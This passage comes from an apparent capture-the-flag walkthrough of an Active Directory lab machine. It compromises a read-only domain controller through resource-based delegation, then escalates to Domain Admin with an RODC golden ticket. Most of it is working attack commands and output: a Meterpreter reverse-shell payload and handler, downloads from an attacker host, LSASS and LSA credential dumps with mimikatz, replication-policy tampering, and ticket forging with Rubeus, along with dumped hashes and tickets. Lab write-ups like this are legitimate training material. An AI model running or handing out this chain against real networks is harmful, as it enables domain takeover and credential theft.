└─$ impacket-addcomputer garfield.htb/l.wilson_adm:'NewP@ss123!' -computer-name 'FOOBAR$' -computer-pass 'NewP@ss123!' -dc-ip 10.129.22.194
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FOOBAR$ with password NewP@ss123!.
```

`PowerView` was used to set `FOOBAR$` as a principal allowed to delegate to `RODC01`, writing to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the `RODC01` computer object.

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> iwr 10.10.16.10/PowerView.ps1 -o PowerView.ps1
```

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Import-Module .\PowerView.ps1
```

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Set-ADComputer RODC01 -PrincipalsAllowedToDelegateToAccount FOOBAR$
```

With delegation configured, `impacket-getST` was used to perform `S4U2Self` and `S4U2Proxy` to request a service ticket for `cifs/RODC01.garfield.htb` impersonating `Administrator`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ impacket-getST garfield.htb/'FOOBAR$':'NewP@ss123!' -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.22.194
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

The resulting ticket was loaded into the `KRB5CCNAME` environment variable and used with `impacket-psexec` to authenticate as `Administrator` and gain a `SYSTEM` shell on `RODC01`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ impacket-psexec garfield.htb/Administrator@RODC01.garfield.htb -k -no-pass 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on RODC01.garfield.htb.....
[*] Found writable share ADMIN$
[*] Uploading file wRttOCjs.exe
[*] Opening SVCManager on RODC01.garfield.htb.....
[*] Creating service zXnb on RODC01.garfield.htb.....
[*] Starting service zXnb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8511]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Running `whoami /all` confirmed `SYSTEM`-level access on `RODC01`.

```cmd
C:\Windows\system32> whoami /all
 
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 
ERROR: Unable to get user claims information.
```

## Privilege Escalation to System (DC01)

### LSA Dump

With `SYSTEM` access on `RODC01` the next step was to extract credentials cached on the `Read-Only Domain Controller`. Because `RODC` only caches passwords for accounts in its `Allowed RODC Password Replication Group`, a standard `DCSync` against the full domain would not work here. However, the local `LSA` secrets and the credentials of `RODC01$` itself — which are always stored on the machine — were still accessible. To perform the dump we generated a `Meterpreter` payload using `msfvenom`, set up a `Metasploit` multi/handler, and executed the payload on `RODC01` to obtain an interactive `Meterpreter` session.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: asdf.exe
```

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.10:4444
```

```cmd
PS C:\temp> iwr 10.10.16.10/asdf.exe -o asdf.exe
```

```cmd
PS C:\temp> .\asdf.exe
```

```shell
[*] Sending stage (232006 bytes) to 10.129.22.194
[*] Meterpreter session 1 opened (10.10.16.10:4444 -> 10.129.22.194:49837) at 2026-04-05 18:22:12 +0200

meterpreter > 
```

With an active `Meterpreter` session we enabled `SeDebugPrivilege` and used `kiwi_cmd` to run `sekurlsa::logonpasswords`, recovering the `NTLM` hash and plaintext machine password of `RODC01$` from `LSASS` memory.

```shell
meterpreter > kiwi_cmd privilege::debug
Privilege '20' OK
```

```shell
meterpreter > kiwi_cmd sekurlsa::logonpasswords

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : RODC01$
Domain            : GARFIELD
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:47 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : RODC01$
         * Domain   : GARFIELD
         * NTLM     : 0a3f810964bb5e1f0e52245f73700172
         * SHA1     : 67dc5a36324b72a396de29a35b03441c62c63970
         * DPAPI    : 67dc5a36324b72a396de29a35b03441c
        tspkg :
        wdigest :
         * Username : RODC01$
         * Domain   : GARFIELD
         * Password : (null)
        kerberos :
         * Username : rodc01$
         * Domain   : GARFIELD.HTB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 26988 (00000000:0000696c)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:47 AM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : RODC01$
         * Domain   : GARFIELD
         * NTLM     : 0a3f810964bb5e1f0e52245f73700172
         * SHA1     : 67dc5a36324b72a396de29a35b03441c62c63970
         * DPAPI    : 67dc5a36324b72a396de29a35b03441c
        tspkg :
        wdigest :
         * Username : RODC01$
         * Domain   : GARFIELD
         * Password : (null)
        kerberos :
         * Username : RODC01$
         * Domain   : garfield.htb
         * Password : ab b9 15 b0 b3 c6 d3 2c ce ef 0f fb dc 3b 11 27 fd 34 b7 3d 3e 19 aa 02 5c f4 80 01 ae 8c d7 4a a7 85 ce 92 b7 c2 a4 71 e3 77 97 c8 f4 0b e1 4e 8d ac 75 9d 95 ff b3 bd 82 c5 f5 4b f0 30 6c 25 14 30 2b c1 f6 9a d8 8c 4d d3 cd 45 33 98 cc de 0d e0 fe ee 82 f7 a3 f4 d8 ac 62 33 7a 52 32 46 ab 88 b8 1f ef 57 bc c1 35 2b 73 7b 5c a2 63 21 b8 e0 1e 89 24 01 a3 32 83 bd e8 76 7f ed 76 37 09 40 c0 27 81 e6 bb 38 3b df 63 09 a1 f0 49 ce ef f7 42 e3 92 cc 68 d0 e9 03 d9 3b 83 93 91 6e 20 06 4f df fa 3e 7f 6b ad 9c 99 eb ef 4a 24 f1 d5 7f c9 c9 d2 95 b0 a0 05 2c 56 60 6b 90 45 71 67 a8 fa 0f e9 c6 51 08 42 e0 33 41 fd 15 7f c1 36 3d 2d 0c a2 cd d6 c5 3c 87 30 70 86 cd 0a e3 70 f1 62 fe 4b d3 cf 1e 8a 36 6c fd a8 eb 12 5d 
        ssp :
        credman :

Authentication Id : 0 ; 24137 (00000000:00005e49)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:43 AM
SID               : 
        msv :
         [00000003] Primary
         * Username : RODC01$
         * Domain   : GARFIELD
         * NTLM     : 0a3f810964bb5e1f0e52245f73700172
         * SHA1     : 67dc5a36324b72a396de29a35b03441c62c63970
         * DPAPI    : 67dc5a36324b72a396de29a35b03441c
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:47 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 26800 (00000000:000068b0)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:47 AM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : RODC01$
         * Domain   : GARFIELD
         * NTLM     : 0a3f810964bb5e1f0e52245f73700172
         * SHA1     : 67dc5a36324b72a396de29a35b03441c62c63970
         * DPAPI    : 67dc5a36324b72a396de29a35b03441c
        tspkg :
        wdigest :
         * Username : RODC01$
         * Domain   : GARFIELD
         * Password : (null)
        kerberos :
         * Username : RODC01$
         * Domain   : garfield.htb
         * Password : ab b9 15 b0 b3 c6 d3 2c ce ef 0f fb dc 3b 11 27 fd 34 b7 3d 3e 19 aa 02 5c f4 80 01 ae 8c d7 4a a7 85 ce 92 b7 c2 a4 71 e3 77 97 c8 f4 0b e1 4e 8d ac 75 9d 95 ff b3 bd 82 c5 f5 4b f0 30 6c 25 14 30 2b c1 f6 9a d8 8c 4d d3 cd 45 33 98 cc de 0d e0 fe ee 82 f7 a3 f4 d8 ac 62 33 7a 52 32 46 ab 88 b8 1f ef 57 bc c1 35 2b 73 7b 5c a2 63 21 b8 e0 1e 89 24 01 a3 32 83 bd e8 76 7f ed 76 37 09 40 c0 27 81 e6 bb 38 3b df 63 09 a1 f0 49 ce ef f7 42 e3 92 cc 68 d0 e9 03 d9 3b 83 93 91 6e 20 06 4f df fa 3e 7f 6b ad 9c 99 eb ef 4a 24 f1 d5 7f c9 c9 d2 95 b0 a0 05 2c 56 60 6b 90 45 71 67 a8 fa 0f e9 c6 51 08 42 e0 33 41 fd 15 7f c1 36 3d 2d 0c a2 cd d6 c5 3c 87 30 70 86 cd 0a e3 70 f1 62 fe 4b d3 cf 1e 8a 36 6c fd a8 eb 12 5d 
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : RODC01$
Domain            : GARFIELD
Logon Server      : (null)
Logon Time        : 4/5/2026 9:02:43 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : RODC01$
         * Domain   : GARFIELD
         * Password : (null)
        kerberos :
         * Username : rodc01$
         * Domain   : GARFIELD.HTB
         * Password : (null)
        ssp :
        credman :
```

To retrieve the `krbtgt_8245` hash we dropped `Mimikatz` on the target and ran `lsadump::lsa /patch` to dump the local `LSA` secrets. A first pass against all accounts showed that most hashes — including the main `krbtgt` — were blank, reflecting the read-only nature of the `RODC`. The `krbtgt_8245` account however, which is the dedicated `krbtgt` account for this specific `RODC` (identified by the key list number `8245`), had a recoverable `NTLM` hash.

```cmd
PS C:\temp> .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK
```

```cmd
mimikatz(commandline) # lsadump::lsa /patch
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 000001f4 (500)
User : Administrator
LM   : 
NTLM : 

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 

RID  : 00000643 (1603)
User : krbtgt_8245
LM   : 
NTLM : 445aa4221e751da37a10241d962780e2

RID  : 00000c1d (3101)
User : j.arbuckle
LM   : 
NTLM : 

RID  : 00000c21 (3105)
User : l.wilson
LM   : 
NTLM : 

RID  : 00000c23 (3107)
User : l.wilson_adm
LM   : 
NTLM : 

RID  : 000003e8 (1000)
User : DC01$
LM   : 
NTLM : 

RID  : 00000642 (1602)
User : RODC01$
LM   : 
NTLM : 0a3f810964bb5e1f0e52245f73700172

RID  : 00002969 (10601)
User : FAKE$
LM   : 
NTLM : 

mimikatz(commandline) # exit
Bye!
```

A targeted dump confirmed the `krbtgt_8245` hash in isolation.

```cmd
PS C:\temp> .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch /name:krbtgt_8245" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::lsa /patch /name:krbtgt_8245
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245
LM   : 
NTLM : 445aa4221e751da37a10241d962780e2

mimikatz(commandline) # exit
Bye!
```

| Username    | NTLM Hash                        |
| ----------- | -------------------------------- |
| krbtgt_8245 | 445aa4221e751da37a10241d962780e2 |

### Read-Only Domain Controller (RODC) Golden Ticket Forgery

A `Read-Only Domain Controller` (`RODC`) uses its own dedicated `krbtgt` account — in this case `krbtgt_8245` — to sign `Kerberos` tickets it issues. The number `8245` is the `RODC Key ID` embedded in tickets issued by this `RODC`, allowing the primary Domain Controller to identify which `RODC` signed a given ticket. Normally, a `Golden Ticket` forged with the main domain `krbtgt` hash grants unrestricted domain access. When using an `RODC`'s `krbtgt` hash instead, the resulting ticket is a `RODC Golden Ticket` — it is valid for requesting service tickets from the `RODC` directly, but to be recognised by the primary `DC` it must pass a `Key List` validation check. The primary `DC` will only honour the ticket if the account it was forged for is present in the `RODC`'s `Allowed RODC Password Replication Group`. This is where the attribute control that `l.wilson_adm` had over `RODC01$` becomes critical: by adding `Administrator` to the allowed replication group and clearing the deny list, the `DC` will agree to upgrade the `RODC`-signed ticket into a fully legitimate `krbtgt` ticket through the `Key List` mechanism, granting complete `Domain Admin` access.

- [https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/rodc-golden-tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/rodc-golden-tickets)
- [https://adsecurity.org/?p=3592](https://adsecurity.org/?p=3592)

First `l.wilson_adm` was added to the `RODC Administrators` group to ensure the necessary permissions were in place for modifying the `RODC01` object attributes.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ bloodyAD --host 10.129.22.194 -u l.wilson_adm -p 'NewP@ss123!' add groupMember "RODC Administrators" 'l.wilson_adm'
[+] l.wilson_adm added to RODC Administrators
```

A fresh `WinRM` session was opened as `l.wilson_adm` on `DC01` and `PowerView` was loaded.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ evil-winrm -i dc01.garfield.htb -u 'l.wilson_adm' -p 'NewP@ss123!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents>
```

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Import-Module .\PowerView.ps1
```

The `msDS-RevealOnDemandGroup` attribute on `RODC01$` was updated to include `Administrator` alongside the default `Allowed RODC Password Replication Group`. This tells the primary `DC` that it is permitted to reveal (i.e. cache and validate) `Administrator`'s password hash to this `RODC`.

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Set-DomainObject -Identity RODC01$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb','CN=Administrator,CN=Users,DC=garfield,DC=htb')}
```

The `msDS-NeverRevealGroup` attribute — which acts as a deny list and would otherwise block replication of sensitive accounts — was cleared entirely.

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Set-DomainObject -Identity RODC01$ -Clear 'msDS-NeverRevealGroup'
```

With the replication policy updated, `Rubeus` was used to forge the `RODC Golden Ticket` using the `krbtgt_8245` `NTLM` hash, the `RODC` key number `8245`, the domain `SID`, and `Administrator`'s `RID 500`.

- [https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_x64](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_x64)

```cmd
PS C:\temp> iwr 10.10.16.10/Rubeus.exe -o Rubeus.exe
```

```cmd
PS C:\temp> .\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /rc4:445aa4221e751da37a10241d962780e2 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : GARFIELD.HTB (GARFIELD)
[*] SID            : S-1-5-21-2502726253-3859040611-225969357
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 445AA4221E751DA37A10241D962780E2
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 445AA4221E751DA37A10241D962780E2
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : garfield.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@garfield.htb'

[*] AuthTime       : 4/5/2026 9:43:15 AM
[*] StartTime      : 4/5/2026 9:43:15 AM
[*] EndTime        : 4/5/2026 7:43:15 PM
[*] RenewTill      : 4/12/2026 9:43:15 AM

[*] base64(ticket.kirbi):

      doIFfjCCBXqgAwIBBaEDAgEWooIEezCCBHdhggRzMIIEb6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IEMzCCBC+gAwIBF6EGAgQgNQAAooIEHgSCBBpSh+Y5esxpjzTsJ/a6iXBhFibsAFfAPXv4mutx3tg1D5Oe41voOD/L7hyqtPTbLXxSZS4rSK3zk4FY850V2BYd3Kv7BfzkTjz3U2bvMIE3PDvj5bQNQbj1tj9q9H+I/3P0fuaZcFDbynYB9Ll+g90tWm1U+X/+lPnIsk+S7ogKuae6R/rIn7INl4SiImYAYXl1+sWu8N6ESquJ45d1UjdfdqzLDvRCale6sfyv7awda3uSyFwkhfzjgiiZEeNf0wvenF/zwJri89N5L7S+Dxtw+1X2qti+yET9hx0IBRm0vpI2W5gbp0gzYlB9MrRtiCAt/NhRy712bfgxkjek3lgo2FTrrbNF/wXRQ5j0mjhIDfC27UYM/MfLC0HV8LmPuAeiCwXB0drOuE4mA+zOadwHTLUBQMssxVJ2YsI/cYSM4Ey81lcySlyuKHZUzqP162DfoXvSA7DEpbUqyRvUCLa0JDXBreIkHx1Y4H41HqYt76a0pJ+4+QM7EPkEsYf7w5Y37EuBspXBDJgY1LnA6eeAOOLHtxp5cTKriGo2WAT+GBZyrLv0DPjbmWMCVBoQxNAnkuzNZ4Gll+W2yMxJGiWkxg5OE7Hp4os2bmHEqS/UdcsuniV2jFXHdI+14694As4fx2bfOfIcPZ+fIQsilUkOShXaycrfWZtWrSMr+c+ANZ9blS0w+TACNHkYqKjkb+DwxFV6jM61v7vxJax5Hs/4jlaLDpYNNMKfghRyNUcuio63GAxsBaAvFs46UOxAfwJZH5EHzQL1yYd/9ZkxyrGeeNgq09OPhJfSNpGU7ShhciQHtsrZDV4aQ0QKmpbX71lfO63vfuyfMGLuxoELLyWg4tPIDA1l8yTBuRRcPXhORHpNBx0qRIy0n3RMqxfWnkhGLKwSU55CA0UHK5XUIMi1c+8Ozg1r1gAC9SeXptEaBQ8YVD00+ezymlMq+T1CzpKmGoDlE7lONWJviQAQ4KUAK4BPnBOSDc3ED2BUKPK6Aq9XTGP5d/dX0uo2LUcm4Q6muvFwmAGyCLRO4DpNSW3WT1T5gCbovBF0x/HftKZscyrpnsh+mHmDWFr2+hD9IfsBobZa4yW8C3b/gOsQjkNXFy55UyNlCWok0q1oqiHuNBU6lR5BnfLTCkpCmaBLoiqlzboCLgyzNauih3QToGk4rEEX91ooRlCHR7LCevYZJeGVQ7SQ0L15HGAvJ5GyBlDBYRrWHOUZ/n32NfhTyRDCYlZbxTwi9Z5hpeX1Bm+UFvfk14FmJ4AVYiNlB9xk3tsdecUd59vX/SGxDQnEpzEGwzAw4RiXBcF5nqta7Ev7GC2vgy0nK08kJauRZkuJymHmdtLrVGUXChVl6FVDq/uLO2FzZjIgrJfTSNdaX2Ab+O/uVtASueaErHejge4wgeugAwIBAKKB4wSB4H2B3TCB2qCB1zCB1DCB0aAbMBmgAwIBF6ESBBAB1O7P9z8WVcwC6+T2awb1oQ4bDEdBUkZJRUxELkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAECBAACkERgPMjAyNjA0MDUxNjQzMTVapREYDzIwMjYwNDA1MTY0MzE1WqYRGA8yMDI2MDQwNjAyNDMxNVqnERgPMjAyNjA0MTIxNjQzMTVaqA4bDEdBUkZJRUxELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRi


[*] Ticket written to ticket_2026_04_05_16_43_15_Administrator_to_krbtgt@GARFIELD.HTB.kirbi
```

The forged `RODC Golden Ticket` was submitted to the primary `DC` using `Rubeus` `asktgs` with the `/keyList` flag. This triggers the `Key List` upgrade mechanism, where the primary `DC` verifies that `Administrator` is in the allowed replication group and then issues a new, fully signed `krbtgt` ticket.

```cmd
PS C:\temp> .\Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:ticket_2026_04_05_16_43_15_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Ask TGS

[*] Requesting 'aes256_cts_hmac_sha1' etype for the service ticket
[*] Building KeyList TGS-REQ request for: 'Administrator'
[*] Using domain controller: DC01.garfield.htb (192.168.100.1)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIE0TCCBM1hggTJMIIExaADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMR0FSRklFTEQuSFRCo4IEiTCCBIWgAwIBEqEDAgECooIEdwSCBHNKKCAzfBAOM/oloFZcHC2aGYd27smC6yKWj6RJcmdIUC8CgJjjNKMh3REfJ1xVXAaugitNkO/ZZdg9Q5nguqrBZVVpqmoVI/hBskHyHGPrcb/9/7cVeVN/W2S2dJmWcO+ywdJaOhKW1pfAFqsj7Go6jpKPh6QubEvcE60ZwZBv+UMSDn0OrG+0/5i7MsI82fvTNSwta+DP7YAcoUkVQbgw+HHB/w+QlHzLATclBlmn7BtW3Vab4RVrsW+vn0Lg0PDc1xb8Q2u9ajlcWe71Cs8DcYL//3iDR8G9Rg7/DhcqLFazsU1CNZq96hIMBWhnd05t74uyU8kuwpxGMhbIkT/QKuEsUDAt49/lLRGT5M3lh5W142LP8zFoLZ1GoRe04l2Nfd8mq3H8U2wlyNgwgnBl7gXp9mn1nUR2z++HPGWf8AOwNBZZvWZZiRNLZnDVOmpQDTXsG5bzEj2/1SmvCWW+dKZ9T1xqcFbU8cK5AWxl5X8eBQpQ+ud8Bbxl7W3cxcvfodIgLgYg57gXBJNBrkGLUuS+XB7JghAxXlLe4DjSgYEXVLpGuROgtJxKVIYvOvq2VkH8pITCzoy+mAv0to/TCwICrdmmPd2j/c/6334awe2ZjeQ9fRvVDGewZEKFV0N19vtOtCmdGFABKqM7x0GNyto5pU8sqxDqbm3C2jrv/1jcx9+lAo7GWVK7OZZGTphTp/tfLWXnrTo6zxSu63P8WCdU0xt9pKe75yKUgP29VYoEvH+iQOR5WqrlCtxjRihDcZ+Z3DeDyy+tahep4LwBaKxRQL8+PBH1yZ7GJ34pSCf5R52LEh3MSeZpdnkNO/G8eDiYSfG/TES8x4RTHEUFb3X30Ik/x0ItiiJhpXcnPTkcZvo1GQ5U0x8J9fWzpYj8UJwfQqXYQ/1yNqXrNXqKyr8f12kx3qGPBg+fkQ/grPdFkvOs01TuL6vextYoB/y8fVuGjCwtm702kuISBy6PUzvQVDG7FEGY6gPGdWCkgLQmfPeSCQgVUYO1bDtlPfdVRcRpG4b/Rp0plpAaDICWI5wbTBY+zpuobeArYST0JSWKV5TBqZqlFR4OYyrq6W2BOoU9QWloZsXZ7N6IU2A9PzldFp1d1zjRm6FwDfyEfqkU5o0YjKCNXDga+Kvy5PQW9GFhQydU5+qziOxm8QChszN+qMK4G/+W7+8M5AUpSVMeRHxA5BbXhrwNiA9xjc+Bq4zi2cazhf8VuFvINfP4CzBw+2GUav7Y7id1dSQHSggyQcntHYTb+eSDw7MZ5d2ROCqtfhRL/dbUgLqF5xIl4UVjCwXbl520WIMVBrxcaP+s58W7JrZHWvjUMmNjA0p+CV34gc2XytaMOh7I1gV/xD3jf8+fZY5V3X3g4VKY/bzg6skA4H+QmpL+pzBX9yXPesHe4tWMa7EatNR1WzEuMyyuhKhsb+wdMMruQnfBEeOhZgMENS4d8Ndjrc6weTN6ha0nCsG0/7Rl1staUYxe/tfwUJDp5FpKNg+08OFbXB4TC6OB2DCB1aADAgEAooHNBIHKfYHHMIHEoIHBMIG+MIG7oCswKaADAgESoSIEIPHcYlQtxhQXaP01WCSqN0/lVxRMgznj/InOJJoC/+McoQ4bDEdBUkZJRUxELkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAAABAAClERgPMjAyNjA0MDUxNjQ0NDhaphEYDzIwMjYwNDA2MDI0MzE1WqgOGwxHQVJGSUVMRC5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDEdBUkZJRUxELkhUQg==

  ServiceName              :  krbtgt/GARFIELD.HTB
  ServiceRealm             :  GARFIELD.HTB
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  GARFIELD.HTB
  StartTime                :  4/5/2026 9:44:48 AM
  EndTime                  :  4/5/2026 7:43:15 PM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize
  KeyType                  :  aes256_cts_hmac_sha1
